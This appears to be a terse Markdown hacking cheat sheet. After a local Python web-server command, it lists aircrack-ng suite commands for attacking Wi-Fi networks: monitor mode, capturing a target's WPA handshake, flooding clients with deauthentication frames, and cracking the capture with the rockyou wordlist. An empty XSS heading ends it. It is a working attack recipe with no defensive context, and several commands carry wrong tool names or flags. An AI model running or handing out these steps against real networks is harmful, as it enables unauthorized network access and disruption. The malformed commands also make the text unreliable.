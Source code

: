 # Web-Server Hosting

```bash
# Hosting a webserver on local machine.
export PORT=8000
python3 -m http.server $PORT
```

# Wifi Hacking

- ####  Monitoring :

```bash
# Setting Network Adapter into monitor mode.
sudo airmon-ng wlan0 start # wlan0 is the interface.
```

```bash
# Checking the status.
iwconfig

# Kill process that are interfering with aircrack.
sudo airmon-ng check kill
```

```bash
# Start monitoring.
sudo airodump-ng wlan0 -abg # abg : Monitor all types of wireless channels.

# We get the network MAC address from there.
```

```bash
# Capturing 4-Way-Handshake.
sudo airodump-ng -bssid 0X:X0:X0:00:XX:XX -c 2 wlan0

# Once captured, you need to decrypt using a wordlist.
```

- ####  DeAuth :

```bash
sudo airplay-ng -0 0 -a 0X:X0:X0:00:XX:XX wlan0
```

- ####  Cracking :

```bash
# Cracking using aircrack-ng.
sudo aircrack-ng -w ~/Desktop/rockyou.txt hash.cap

# You can use CeWL if the target has a webserver to spider it and generate a wordlist.
```

# Cross Site Scripting (XSS)
